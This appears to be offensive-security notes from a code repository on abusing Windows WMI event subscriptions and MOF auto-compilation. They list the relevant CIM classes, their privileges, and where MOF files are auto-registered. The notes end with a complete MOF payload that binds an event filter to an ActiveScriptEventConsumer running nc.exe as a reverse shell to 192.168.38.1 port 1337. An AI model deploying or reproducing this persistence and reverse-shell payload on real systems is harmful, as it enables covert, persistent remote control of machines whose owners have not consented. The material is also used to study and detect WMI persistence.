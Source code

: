 ### Interesting CIM classes

  - [__EventFilter](http://msdn.microsoft.com/en-us/library/aa394639%28v=vs.85%29.aspx) [[create](http://msdn.microsoft.com/en-us/library/aa389741%28VS.85%29.aspx)]: permits to define a Windows event
  - [__EventConsumer](http://msdn.microsoft.com/en-us/library/aa384749%28VS.85%29.aspx): (abstract consumer class)
    - [ActiveScriptEventConsumer](http://msdn.microsoft.com/en-us/library/aa394635): possible to embed VBScript or JSScript in the consumer (only available in `root\subscription`)
      - Consumer runs with SYSTEM privilege on `Windows XP` and `Windows 2003 Server`
      - `Vista`, it is running under the LOCAL_SERVICE user
  - [__FilterToConsumerBinding](http://msdn.microsoft.com/en-us/library/aa394647%28v=VS.85%29.aspx): link two other instances. (permits to activate the consumer - and to execute its code - whenever the defined event occurs)

### [MOF (Managed Object Format)](http://msdn.microsoft.com/en-us/library/aa823192%28VS.85%29.aspx)

- Language used to describe CIM classes, namespaces and providers 
- MOF file needs to be registered into the CIM/WMI repository in order to be taken into account by WMI
  - CIM class(es) MOF describes are added into the repository
  - Stored in `%SystemRoot%\System32\wbem`
- Compilation
  - Compiled using `mofcomp.exe`
- Auto compile & register
  - Writable to `Administrator` only
  - Files added to  `%SystemRoot%\System32\wbem\mof\` get auto compiled and registered (before Vista)
  - Logs are in `%SystemRoot%\System32\wbem\mof\Logs\mofcomp.log`

Wait for a windows event and trigger:
```powershell
#pragma namespace ("\\\\.\\root\\subscription")

instance of __EventFilter as $FILTER
{
    Name = "CLASS_FIRST_TEST";
    EventNamespace = "root\\cimv2";
 Query = "SELECT * FROM __InstanceCreationEvent "
  "WHERE TargetInstance ISA \"Win32_NTLogEvent\" AND "
  "TargetInstance.LogFile=\"Application\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    Name = "CLASS_FIRST_TEST";
    ScriptingEngine = "VBScript";

    ScriptText =
      "Set objShell = CreateObject(\"WScript.Shell\")\n"
   "objShell.Run \"C:\\Windows\\system32\\cmd.exe /C C:\\nc.exe 192.168.38.1 1337 -e C:\\Windows\\system32\\cmd.exe\"\n";
};

instance of __FilterToConsumerBinding
{
    Consumer = $CONSUMER ;
    Filter = $FILTER ;
};
```
> - Ref: [http://www.hsc-news.com/archives/2011/000078.html](http://www.hsc-news.com/archives/2011/000078.html)
